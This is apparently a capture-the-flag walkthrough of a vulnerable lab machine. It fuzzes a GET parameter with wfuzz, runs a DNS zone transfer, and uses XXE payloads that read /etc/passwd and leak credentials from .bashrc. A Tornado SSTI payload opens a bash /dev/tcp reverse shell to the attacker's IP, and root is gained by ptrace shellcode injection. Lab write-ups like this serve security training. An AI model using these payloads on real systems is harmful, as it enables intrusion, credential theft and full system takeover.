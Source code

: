 Skills:

- Web Enumeration
- Information Leakage
- Fuzzing GET parameter - Wfuzz (Range Payload)
- Subdomain Enumeration (dig)
- XXE (XML External Entity Injection) Attack
- XXE + Base64 Wrapper in order to read .bashrc
- SSTI (Server Side Template Injection - Tornado Injection (RCE)
- Abusing Capabilities (Python2.7 cap_sys_ptrace+ep) - Injecting BIND TCP shellcode into root process [Privilege Escalation]

While checking the website, I came across a hint that said, "More you will DIG me,more you will find me on your servers..DIG me more...DIG me more" DIG is a network admin tool used for querying DNS servers.

Upon inspecting the source code, I found another clue: 'TO DO: Use a GET parameter, page_no, to view pages.' If we utilize this parameter by visiting '192.168.0.00/?page_no=1,' we receive the message 'Oh Man !! Isn't is right to go a little deep inside?' This might be a rabbit hole, 
```
192.168.0.00/?page_no=1
```

We can further investigate by fuzzing this parameter using 'wfuzz':
```
❯ wfuzz --hh=3654 -z range,1-10000 'http://192.168.0.112/?page_no=FUZZ'
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000021:   200        116 L    310 W      3849 Ch     "21" 
```

The key number we are looking for is 21. Once we access it on the website, we encounter another message: 'I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!  Out of my many homes...one such home..one such home for me : hackers.blackhat.local" 
that give us a subdomain name so we can save it in our hosts file
When we check the domain on the website, it shows a forbidden state.
As the port 53  is open, we can use the dig tool to make dns requests and execute a domain zone transfer attack

```
❯ dig @192.168.112 blackhat.local axfr
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
```

In this way we obtain another subdomain and we save it.
Checking this subdomain we can create an account, we use burpsuit to intercept the request.
It's an xml structure, we can execute an XXE vulnerability https://portswigger.net/web-security/xxe

``` xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> --> user saket
<email> &xxe;</email>
saket:x:1000:1000:Ubuntu,,,:/home/saket:/bin/bash
-------------------------------

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/saket/.bashrc"> ]> --> bashrc file
<email> &xxe;</email>
#Setting Password for running python app
username="admin"
password="Saket!#$%@!!"

```

Exploiting the XXE vulnerability, we obtained credentials stored in the bashrc file of the user Saket

We use these credentials in a python application On port 9999 
``` xml
username="saket"
password="sdfasd"
```

This application use Tornado that is a python web framework and we can exploit it through  code execution via SSTI https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python
``` xml
http://192.168.0.112:9999/?name={{7+7}} --> payload
http://192.168.0.112:9999/?name={% import os %}{{os.system('whoami')}}

# now get a reverse shell
#on my machine 
nc -nlvp 1234

#on site
http://192.168.0.112:9999/?name={% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.0.100/1234 0>&1"')}}
```


IN this way we gain access to the victim machine
Escalate privilege

``` bash
> find / -perm -4000 2>/dev/null --> nothing
> getcap -r / 
> export PATH=/usr/sbin:/sbin/usr/bin:/bin

>saket@ubuntu:/$ getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

> getcap -r / 2>/dev/null --> python --> cap_sys_ptrace+ep --> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace

> ps -faux | grep apache --> pid
> use the python script from hacktricks --> use the apache pid
saket@ubuntu:/tmp$ python2.7 cap_sys.py 769
Instruction Pointer: 0x7f162a8660daL
Injecting Shellcode at: 0x7f162a8660daL
Shellcode Injected!!
Final Instruction Pointer: 0x7f162a8660dcL

> nc 192.168.0.000 5600 --> gained access as root
> root@ubuntu:/root# whoami
whoami
root

```